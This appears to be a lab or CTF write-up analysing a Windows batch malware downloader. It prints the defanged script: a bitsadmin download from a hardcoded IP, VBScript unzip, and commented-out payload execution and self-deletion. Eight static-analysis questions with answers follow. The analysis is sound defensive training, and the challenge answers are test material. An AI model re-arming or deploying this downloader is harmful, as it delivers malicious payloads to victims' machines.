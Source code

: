 # Batch Downloader 

## Challenge Description 
<img width="1175" height="301" alt="image" src="https://github.com/user-attachments/assets/1de6c347-22fe-44f4-9632-917b2956380a" />

## Solution and Analysis 

Extract the batch file from the password protected archive, this is the defanged code 

```Batch
@echo off
REM -- The following line is the downloader component. The URL has been defanged. --
bitsadmin /transfer System /Download /Priority FOREGROUND hxxp://193[.]169[.]255[.]78/FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.zip %TEMP%\FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.zip

setlocal
cd /d %~dp0

REM -- Calls the subroutine to unpack the downloaded payload. --
Call :UnZipFile "%TEMP%" "%TEMP%\FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.zip"

cd /d "%TEMP%"

REM -- The following line executes the payload. It has been commented out to prevent execution. --
REM start "" "FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.exe"

REM -- The following line is the self-deletion/cleanup mechanism. It has been commented out. --
REM del %~s0 /q

GOTO :EOF

:UnZipFile <ExtractTo> <newzipfile>
set vbs="%TEMP%\_.vbs"
if exist %vbs% del /f /q %vbs%
>%vbs%  echo Set fso = CreateObject("Scripting.FileSystemObject")
>>%vbs% echo If NOT fso.FolderExists(%1) Then
>>%vbs% echo fso.CreateFolder(%1)
>>%vbs% echo End If
>>%vbs% echo set objShell = CreateObject("Shell.Application")
>>%vbs% echo set FilesInZip=objShell.NameSpace(%2).items
>>%vbs% echo objShell.NameSpace(%1).CopyHere(FilesInZip)
>>%vbs% echo Set fso = Nothing
>>%vbs% echo Set objShell = Nothing

REM -- The following line runs the VBScript to unzip the file. It has been commented out. --
REM cscript //nologo %vbs%

if exist %vbs% del /f /q %vbs%
GOTO :EOF
```

### Static Analysis Q&A

1.  **Question 1:** What command is used to prevent the command echoing in the console?
    *   **Answer:** `@echo off`
    *   **Explanation:** This is a standard command at the beginning of a batch script used for stealth and cleanliness. `echo off` prevents subsequent commands from being printed to the console as they are executed. The `@` symbol preceding it prevents the `echo off` command itself from being displayed. This ensures the script runs without revealing its actions to the user.

2.  **Question 2:** Which tool is used to download a file from a specified URL in the script?
    *   **Answer:** `bitsadmin`
    *   **Explanation:** The script uses `bitsadmin.exe`, the Background Intelligent Transfer Service command-line tool. This is a legitimate Windows utility that malware authors frequently abuse to download malicious payloads. Using built-in system tools like this is a "Living Off the Land" (LOLBin) technique, which helps the malware avoid detection as it's using a trusted Microsoft-signed executable.

3.  **Question 3:** What is the priority set for the download operation in the script?
    *   **Answer:** `FOREGROUND`
    *   **Explanation:** The `/Priority FOREGROUND` switch tells the BITS service to give the download job a high priority. This ensures the malicious file is downloaded as quickly as possible, minimizing the time between initial execution and payload delivery.

4.  **Question 4:** Which command is used to start localization of environment changes in the script?
    *   **Answer:** `setlocal`
    *   **Explanation:** The `setlocal` command creates a local scope for environment variables. Any changes made to the environment after this command (like changing the current directory with `cd`) will be discarded when the script ends. This is a way for the script to clean up after itself and not leave lasting changes in the user's command shell environment.

5.  **Question 5:** Which IP address is used by malicious code?
    *   **Answer:** `193.169.255.78`
    *   **Explanation:** This IP address is the hardcoded location of the command and control (C2) or staging server. The script reaches out to this address via HTTP to download the next-stage payload, which is the ZIP archive.

6.  **Question 6:** What is the name of the subroutine called to extract the contents of the zip file?
    *   **Answer:** `unzipfile`
    *   **Explanation:** The line `Call :UnZipFile` invokes a subroutine defined later in the script with the label `:UnZipFile`. Batch script labels are case-insensitive, so `unzipfile` is the correct name. This modular approach keeps the unpacking logic separate from the main execution flow.

7.  **Question 7:** Which command attempts to start an executable file extracted from the zip file?
    *   **Answer:** `start "" "FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.exe"`
    *   **Explanation:** The `start` command is used to run a program or open a file. In this case, it executes the payload `FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.exe` that was just extracted from the ZIP archive. The filename is designed to be deceptive, using a `.PDF.exe` double extension to trick users into thinking it's a harmless document.

8.  **Question 8:** Which scripting language is used to extract the contents of the zip file?
    *   **Answer:** `VBScript`
    *   **Explanation:** The batch script does not contain a native unzip command. Instead, the `:UnZipFile` subroutine dynamically creates a VBScript file (`_.vbs`) by echoing text into it. This VBScript code uses the built-in `Shell.Application` COM object, which has the functionality to handle ZIP archives. The batch script then executes this temporary VBScript using `cscript.exe` to perform the extraction.
